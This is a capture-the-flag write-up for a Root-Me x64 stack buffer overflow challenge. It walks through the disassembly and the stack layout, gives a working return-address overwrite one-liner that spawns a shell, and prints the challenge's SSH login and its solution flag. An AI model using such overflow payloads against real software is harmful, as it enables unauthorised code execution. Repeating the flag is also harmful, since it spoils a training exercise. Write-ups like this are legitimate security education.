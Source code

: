 # ELF x64 - Stack buffer overflow - basic
https://www.root-me.org/en/Challenges/App-System/ELF-x64-Stack-buffer-overflow-basic?action_solution=voir#ancre_solution
```
Pwn the binary, read the flag in .passwd.

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 Yes 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2223
SSH access 	ssh -p 2223 app-systeme-ch35@challenge02.root-me.org   
Username	app-systeme-ch35
Password	app-systeme-ch35
```
Let's reverse the assembly abit:
```asm
   0x0000000000400628 <+0>:	push   rbp
   0x0000000000400629 <+1>:	mov    rbp,rsp
   0x000000000040062c <+4>:	sub    rsp,0x120
   0x0000000000400633 <+11>:	mov    DWORD PTR [rbp-0x114],edi
   0x0000000000400639 <+17>:	mov    QWORD PTR [rbp-0x120],rsi
   0x0000000000400640 <+24>:	lea    rax,[rbp-0x110]
   0x0000000000400647 <+31>:	mov    rsi,rax
   0x000000000040064a <+34>:	lea    rdi,[rip+0xd0]        # 0x400721
   0x0000000000400651 <+41>:	mov    eax,0x0
   0x0000000000400656 <+46>:	call   0x4004f0 <__isoc99_scanf@plt>
   0x000000000040065b <+51>:	lea    rax,[rbp-0x110]
   0x0000000000400662 <+58>:	mov    rdi,rax
   0x0000000000400665 <+61>:	call   0x4004c0 <strlen@plt>
   0x000000000040066a <+66>:	mov    DWORD PTR [rbp-0x4],eax
   0x000000000040066d <+69>:	lea    rax,[rbp-0x110]
   0x0000000000400674 <+76>:	mov    rsi,rax
   0x0000000000400677 <+79>:	lea    rdi,[rip+0xa6]        # 0x400724
   0x000000000040067e <+86>:	mov    eax,0x0
   0x0000000000400683 <+91>:	call   0x4004d0 <printf@plt>
   0x0000000000400688 <+96>:	mov    eax,0x0
   0x000000000040068d <+101>:	leave  
   0x000000000040068e <+102>:	ret  
```
Before the **scanf** call, there are some allocations in the stack. First, the program will allocate 288 bytes for the function.<br>
Next, it will allocate 272 bytes for the buffer (which according to the source code should only take 256 bytes).<br>
So, basically the stack should look like the following figure, just before calling the **scanf** function:

```
                        +----------------+
                        | return address |
                        +----------------+
                        |   alignment    |
                        +----------------+
                        |                |
                        |  272 bytes of  |
                        |   the buffer   |
                        |                |
                        +----------------+
```

So, basically one should write 280 bytes and then write the wanted return address (in this case, the address to **callMeMaybe**).<br>
Let's verify it:
```sh
app-systeme-ch35@challenge03:~$ python -c "print 'A'*280 + 'DDDD'" | ./ch35 
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
Well it looks like the return address was changed (according to the segmentation fault).<br>
If we'll change the "DDDD" to the address of the **callMeMaybe** function we should get our shell:
```sh
app-systeme-ch35@challenge03:~$ cat <(python -c 'print "A"*280+"\xe7\x05\x40"+"\x00"*5') - | ./ch35
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
id
uid=1135(app-systeme-ch35) gid=1135(app-systeme-ch35) euid=1235(app-systeme-ch35-cracked) groups=1135(app-systeme-ch35),100(users)
cat .passwd
B4sicBufferOverflowExploitation
```


